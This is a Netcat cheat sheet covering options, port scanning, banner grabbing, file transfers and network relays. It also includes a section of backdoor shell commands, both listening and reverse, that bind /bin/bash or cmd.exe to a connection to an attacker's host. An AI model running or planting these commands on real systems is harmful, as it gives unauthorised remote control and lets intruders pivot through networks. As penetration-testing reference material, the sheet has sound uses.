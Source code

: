 ```yaml
---
title: Netcat Cheatsheet 
description: CheatSheet
---
```

<Callout>Netcat (`nc`) is a powerful networking tool used for various tasks, including port scanning, banner grabbing, file transfers, and creating backdoor shells. This cheat sheet covers essential commands and techniques.</Callout>

#### Basic Syntax

```bash
$ nc [options] [TargetIPaddr] [port(s)]
```

- **`[TargetIPaddr]`**: The IP address or domain name of the target. Required in client mode, optional in listen mode.

#### Common Options

- **`-l`**: Listen mode (default is client mode).
- **`-L`**: Listen harder (Windows only). Makes Netcat a persistent listener that restarts after a client disconnects.
- **`-u`**: UDP mode (default is TCP).
- **`-p`**: Local port (In listen mode, the port Netcat listens on. In client mode, the source port for outgoing packets).
- **`-e`**: Program to execute after connection, linking STDIN and STDOUT to the program.
- **`-n`**: Avoid DNS lookups.
- **`-z`**: Zero-I/O mode. No data is sent; only a connection attempt is made.
- **`-wN`**: Timeout for connects. Waits `N` seconds after closure of STDIN.
- **`-v`**: Verbose mode. Prints messages on STDERR.
- **`-vv`**: Very verbose mode. Prints even more details.

#### Fundamental Commands

#### Netcat Client

Connect to a specific port on a target IP address:

```bash
$ nc [TargetIPaddr] [port]
```

#### Netcat Listener

Create a listener on a specific local port:

```bash
$ nc -l -p [LocalPort]
```

#### Port Scanning

Perform a port scan on a target IP address:

```bash
$ nc -v -n -z -w1 [TargetIPaddr] [start_port]-[end_port]
```

- **`-v`**: Verbose output.
- **`-n`**: No DNS resolution.
- **`-z`**: Zero-I/O mode.
- **`-w1`**: 1-second timeout.

#### TCP Banner Grabbing

Grab the banner of a TCP service:

```bash
$ echo "" | nc -v -n -w1 [TargetIPaddr] [port]
```

Add `-r` to randomize ports within a range or `-p [port]` to specify a source port.

#### File Transfers

#### Push a File from Client to Listener

On the listener:

```bash
$ nc -l -p [LocalPort] > [outfile]
```

On the client:

```bash
$ nc -w3 [TargetIPaddr] [port] < [infile]
```

#### Pull a File from Listener Back to Client

On the listener:

```bash
$ nc -l -p [LocalPort] < [infile]
```

On the client:

```bash
$ nc -w3 [TargetIPaddr] [port] > [outfile]
```

#### Backdoor Shells

#### Listening Backdoor Shell on Linux

```bash
$ nc -l -p [LocalPort] -e /bin/bash
```

#### Listening Backdoor Shell on Windows

```bash
C:\> nc -l -p [LocalPort] -e cmd.exe
```

#### Reverse Backdoor Shell on Linux

```bash
$ nc [YourIPaddr] [port] -e /bin/bash
```

#### Reverse Backdoor Shell on Windows

```bash
C:\> nc [YourIPaddr] [port] -e cmd.exe
```

#### Relays

#### Listener-to-Client Relay (Windows)

```bash
C:\> echo nc [TargetIPaddr] [port] > relay.bat
C:\> nc -l -p [LocalPort] -e relay.bat
```

#### Listener-to-Listener Relay (Linux)

Create a FIFO named pipe called `backpipe`:

```bash
$ cd /tmp
$ mknod backpipe p
```

Then, use:

```bash
$ nc -l -p [LocalPort_1] 0<backpipe | nc -l -p [LocalPort_2] | tee backpipe
```

#### Client-to-Client Relay (Linux)

```bash
$ nc [PreviousHopIPaddr] [port] 0<backpipe | nc [NextHopIPaddr] [port2] | tee backpipe
```




